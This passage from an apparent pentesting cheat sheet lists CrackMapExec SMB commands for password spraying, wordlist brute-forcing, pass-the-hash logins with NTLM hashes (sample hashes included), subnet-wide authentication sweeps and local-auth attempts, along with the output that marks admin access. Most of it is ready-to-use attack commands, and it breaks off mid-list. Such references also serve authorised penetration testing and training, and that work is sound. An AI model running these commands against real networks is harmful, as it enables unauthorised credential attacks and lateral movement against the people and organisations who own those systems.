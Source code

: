     ```bash
    crackmapexec smb <target_ip> -u <usernmame_list> -p '<password>'
    crackmapexec smb <target_ip> -u <username> -p <password_list>
    ```
*   **`--continue-on-success`:** By\*\* default CME will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. Useful for spraying a single password against a large user list.

    ```bash
    crackmapexec smb <target_ip> -u <username_list> -p '<password>' --continue-on-success
    ```
*   **Checking login == password using wordlist:**

    ```bash
    crackmapexec smb <target_ip> -u <username_list> -p <username_list>
    ```
*   **Checking multiple usernames/passwords using worlist:**

    ```bash
    crackmapexec smb <target_ip> -u <username_list> -p <password_list>
    ```
*   **Checking one login equal one password using wordlist:** No bruteforce possible with this one as 1 user = 1 password. Avoid range or a list of IP when using option `--no-bruteforce`

    ```bash
    crackmapexec smb <target_ip> -u <username_list> -p <password_list> --no-bruteforce --continue-on-succes
    ```
*   **Domain Authentication:** Failed logins result in a `[-]`; Successful logins result in a `[+] Domain\Username:Password`. Local admin access results in a (Pwn3d!) added after the login confirmation, shown below.

    ```bash
    SMB         192.168.1.101    445    HOSTNAME          [+] DOMAIN\Username:Password (Pwn3d!)
    ```
*   **Authenticate Using User/Password:** The following checks will attempt authentication to the entire /24 though a single target may also be used.

    ```bash
    crackmapexec smb <target_ip>/24 -u <username> -p '<password>'
    ```
*   **Authenticate Using User/Hash:**

    ```bash
    crackmapexec smb <target_ip> -u <username> -H '<LM:NT>'
    crackmapexec smb <target_ip> -u <username> -H '<ntlmhash>'

    crackmapexec smb 192.168.1.0/24 -u Administrator -H '13b29964cc2480b4ef454c59562e675c'
    crackmapexec smb 192.168.1.0/24 -u Administrator -H 'aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454'
    ```
*   **Authenticate Using User/Password/Hashes:** Adding `--local-auth` to any of the authentication commands with attempt to logon locally.

    ```bash
    crackmapexec smb <target_ip> -u '' -p '' --local-auth
    crackmapexec smb <target_ip> -u <username> -p '<password>' --local-auth
    crackmapexec smb <target_ip> -u <username> -H '<LM:NT>' --local-auth
    crackmapexec smb <target_ip> -u <username> -H '<ntlmhash>' --local-auth
